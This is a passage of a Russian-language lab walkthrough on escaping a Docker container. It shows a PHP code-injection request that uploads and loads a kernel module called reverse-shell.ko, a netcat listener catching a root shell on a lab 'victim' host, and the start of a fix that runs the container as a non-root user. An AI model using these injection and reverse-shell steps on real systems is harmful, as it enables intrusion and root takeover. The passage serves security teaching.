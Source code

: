 Произведем urlencoding этой строки и выполним получившийся запрос:

```
vagrant@hacker:~$ curl -v  -X POST 192.168.50.4/?code=move_uploaded_file%28%24_FILES%5B%27shell%27%5D%5B%27tmp_name%27%5D%2C%20%27reverse-shell.ko%27%29%3B \
-F 'shell=@reverse-shell.ko'
```

Откроем ещё один терминал на хосте `hacker` и запустим на нем netcat в режиме ожидания соединения:

```
$ vagrant ssh hacker
vagrant@hacker:~$ nc -vnlp 4444
  listening on [any] 4444 ...
```

Теперь загрузим модуль:

```
vagrant@hacker:~$ curl -G 192.168.50.4 --data-urlencode "code=system('insmod reverse-shell.ko');"
  <h1> Hello world!</h1>
  <br>
```

При этом во втором окне, там где мы запустили netcat, мы получим привилегированный shell на хостовой системе `victim`:

```
vagrant@hacker:~$ nc -vnlp 4444
  listening on [any] 4444 ...
  connect to [192.168.50.5] from (UNKNOWN) [192.168.50.4] 39060
  bash: cannot set terminal process group (-1): Inappropriate ioctl for device
  bash: no job control in this shell
root@victim:/# id
  id
  uid=0(root) gid=0(root) groups=0(root)
root@victim:/# cat /home/vagrant/FLAG
  cat /home/vagrant/FLAG
  WAS HACKED 
```

## Solution I

Самым простым способом решения проблемы является запуск из под не привилегированного пользователя. Для реализации этого
подхода на хосте `victim` откройте Dockerfile и добавим в него строку `USER 1000`:

```
$ vagrant ssh victim
vagrant@victim:~$ cd /vagrant/victim/
vagrant@victim:/vagrant/victim$ docker-compose stop
  Stopping victim_webapp_1 ... done
vagrant@victim:/vagrant/victim$ nano Dockerfile
  ...
  USER 1000
  ...
<Ctrl+O><Ctrl+X>
vagrant@victim:/vagrant/victim$ docker-compose up --build -d
  Building webapp
  Step 1/5 : FROM php:7.4-cli
   ---> 639632eff06b
  Step 2/5 : WORKDIR /app
   ---> Using cache
   ---> 6cd15b0ede2b
  Step 3/5 : USER 1000
   ---> Running in 84916b1065ad
  Removing intermediate container 84916b1065ad
   ---> 07fe5524f58b
  Step 4/5 : COPY index.php index.php
```